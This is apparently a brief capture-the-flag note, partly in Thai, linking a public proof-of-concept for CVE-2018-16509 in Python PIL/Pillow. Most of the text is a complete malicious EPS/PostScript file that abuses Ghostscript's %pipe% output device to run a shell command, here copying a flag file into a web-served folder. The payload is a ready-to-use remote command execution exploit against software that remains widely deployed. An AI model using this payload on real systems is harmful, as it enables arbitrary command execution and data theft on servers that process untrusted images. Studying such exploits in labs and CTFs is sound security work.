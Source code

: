 


https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509

library PIL มีช่องโหว่ Python PIL/Pillow Remote Shell Command Execution via Ghostscript CVE-2018-16509

%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > application/static/petpets/test.txt)) currentdevice putdeviceprops

![alt text](image.png)